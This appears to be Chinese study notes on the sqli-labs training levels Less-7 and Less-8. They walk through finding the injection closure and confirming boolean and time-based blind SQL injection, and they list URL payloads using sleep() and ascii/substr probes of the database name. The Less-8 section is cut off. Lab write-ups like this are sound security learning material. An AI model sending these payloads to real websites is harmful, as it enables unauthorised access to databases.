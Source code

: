## Less-7

+ 输入不同ＩＤ参数，页面显示不变，表明没有回显　，　不能用联合查询方式,输入参数后面带　单引号　，　报错　说明存在报错注入漏洞　

+ 但是通过报错信息无法判断闭合方式　

+ 代码审计发现：
+ 闭合方式：
　　　＇））

+ 注入测试：
```bash
    ?id=1')) --+　　　　　　　　＃很和谐
    ?id=1'))and 1=１ --+　　　　　
    ?id=1'))and 1=2 --+　　　　　＃存在　布尔类型注入漏洞
    ?id=1'))and sleep(5) --+　　　＃页面时间县　有５ｍｓ　　，　说明存在延时类型注入　漏洞
```

+ 注入Payload：

```bash
    ?id=1')) and length(database())=8 --+　　
    ?id=1')) and ascii(substr(database(),1,1))=0x73 --+
    ?id=1')) and ascii(substr(database(),1,1))=115 --+　　＃字母　：ｓ　
```

![](img/less-7.png)

## Less-8

+ 输入不同ＩＤ参数，页面显示不变，表明没有回显　，　不能用联合查询方式
没有回显，没有报错。　
+ 输入单引号　　，页面有变化　　添加　－－＋　强制闭合
